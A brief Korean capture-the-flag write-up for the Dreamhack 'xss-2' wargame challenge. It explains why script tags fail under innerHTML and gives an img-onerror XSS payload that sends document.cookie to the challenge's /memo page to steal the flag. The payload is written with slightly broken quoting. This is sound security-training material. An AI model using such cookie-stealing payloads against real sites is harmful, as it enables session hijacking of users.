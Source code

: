 # xss-2 (268)

## 문제

여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

플래그 형식은 DH{…} 입니다.

https://dreamhack.io/wargame/challenges/268

## 풀이

xss-1 문제와 거의 유사하다.

https://github.com/GwangIl-Park/dreamhack-playground/tree/main/wargame/xss-1

차이가 있다면 vuln 경로에서 innerHTML로 말아서 주기 때문에, \<script>를 사용할 수가 없다.

```
@app.route("/vuln")
def vuln():
    return render_template("vuln.html")
```

따라서 다른 태그가 필요하다.

```
<img src="xx" onerror="location.href=/memo?memo="+document.cookie/>
```

결과는 1과 동일하니 생략